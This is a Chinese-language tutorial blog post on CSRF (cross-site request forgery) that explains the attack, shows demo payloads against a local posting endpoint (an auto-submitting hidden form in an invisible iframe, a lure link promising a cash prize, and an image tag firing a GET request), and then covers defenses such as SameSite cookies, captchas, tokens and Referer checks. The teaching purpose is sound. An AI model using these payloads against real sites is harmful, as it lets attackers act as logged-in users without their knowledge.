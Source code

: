 ```yaml
---
title: Web 漏洞分析与防御之 CSRF（二）
date: 2017-10-11 21:45:52
tags: 安全
categories: 前端
---
```


## 一、全称
跨站请求伪造（Cross-site Request Forgery）

## 二、原理

在用户登陆目标网站后，后端会返回用户登陆的凭证到前端（浏览器的 cookie）。攻击者诱使用户点击某个超链接，该超链接会发送恶意请求（会携带用户的 cookie），从而冒充用户完成业务请求（发帖、盗取用户资金等）。

<!-- more -->

## 三、攻击方式
笔者以网站的发帖功能为案例对 CSRF 攻击进行简单的讲解。

### 3.1 提交 form 表单

下图为模拟攻击演示图：

![image](http://ow97db1io.bkt.clouddn.com/web-security-1.gif)

以下是演示图中，"CSRF 攻击.html" 文件的源码。

``` html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <title>测试</title>
</head>
<body>
<script type="text/javascript">
        document.write(`
                <form id="myForm" name="myForm" target="csrf"
                        method="post" action="http://localhost:8080/article/save">
                    <input type="hidden" name="userName" value="李四" />
                    <textarea name="content">表单攻击</textarea>
                </form>
            `);

        var iframe = document.createElement("iframe");
        iframe.name = "csrf";
        iframe.style.display = "none";
        document.body.appendChild(iframe);

        setTimeout(function() {
            document.getElementById("myForm").submit();
        },1000);
</script>
</body>
</html>
```

**实际案例中，攻击者会先了解目标网站请求的 url，通过诱惑登陆用户点击某个超链接，该链接指向类似上文的 html 页面（第三方网站）。因为是用户在自己浏览器点击的超链接，因此会自动携带用户浏览器中的  cookie，这样在第三方网站就可以冒充用户发起请求。**

### 3.2 点击超链接

如果目标网站允许 get 请求，可通过超链接攻击。如下图：

![image](http://ow97db1io.bkt.clouddn.com/web-security-2.gif)

超链接源码如下：

``` html
<a href="http://localhost:8080/article/save?userName=李四&content=超链接攻击">点击获取现金大奖</a>
```

### 3.3 加载图片方式

更加粗暴的方式就是通过图片发送请求，如下图：

![image](http://ow97db1io.bkt.clouddn.com/web-security-4.gif)

图片源码如下：

``` html
<img src="http://localhost:8080/article/save?userName=李四&content=图片攻击" />
```

## 四、防御

CSRF 攻击的一个特点是绕过目标网站的前端页面（无法获知页面的信息，如：验证码，token），在第三方网站发送请求到目标网站后端。

### 4.1 禁止第三方网站携带 cookie
在网站后端，用户登陆功能的代码中，设置 cookie 的 SameSite 的值为 Strict 返回给浏览器。

缺点：目前只有 chrome 和 opera 支持该属性。

### 4.2 使用验证码

以论坛发帖为例，在发帖时，设置一个验证码，发帖后在后端进行校验。CSRF 攻击没法获取到验证码，从而目标网站得到了防御。

### 4.3 使用 token

继续以论坛发帖为例，在论坛后端跳转发帖页面的代码中随机生成一个 N 位数的数字/字符串作为 token，设置到 cookie 和任意变量名的变量中（最终放入到前端的 form 表单中）。当用户在页面发帖后，后端接收和校验 cookie 中的 token 和 页面提交的 token 是否一致。如果一致，则说明是用户合法操作。

### 4.4 判断 referer
referer 是 http 的请求头，用户发送请求后，在后端获取该请求头，判断它的值是否包含目标网站的域名。如果包含说明操作合法。

## 五、参考资料
* <http://netsecurity.51cto.com/art/200811/97281.htm>
* <https://developer.mozilla.org/zh-CN/docs/Web/HTTP/Headers/Referer>

